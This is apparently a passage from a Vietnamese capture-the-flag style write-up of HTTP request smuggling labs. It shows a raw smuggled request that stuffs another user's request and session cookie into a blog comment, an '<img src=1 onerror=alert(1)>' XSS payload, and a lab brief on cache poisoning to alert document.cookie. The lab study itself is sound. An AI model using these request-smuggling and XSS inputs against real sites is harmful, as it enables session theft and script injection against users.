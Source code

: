 ```
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...

```


Tương tự với lý thuyết như thế chúng ta truy cập bài lab. Và thấy được 1 blog như sau.

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_userrequest_blog.png?raw=true)


![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_userrequest_cmt.png?raw=true)



![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_userrequest_cmt_request.png?raw=true)



### Lab: Exploiting HTTP request smuggling to deliver reflected XSS
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).
```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_reflectedXSS_request.png?raw=true)


![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_reflectedXSS_request_xssid.png?raw=true)

```

<img src=1 onerror=alert(1)>
```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_reflectedXSS_request_xssuser.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/HRS_reflectedXSS_solve.png?raw=true)


### Lab: Exploiting HTTP request smuggling to perform web cache poisoning
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert document.cookie.
```




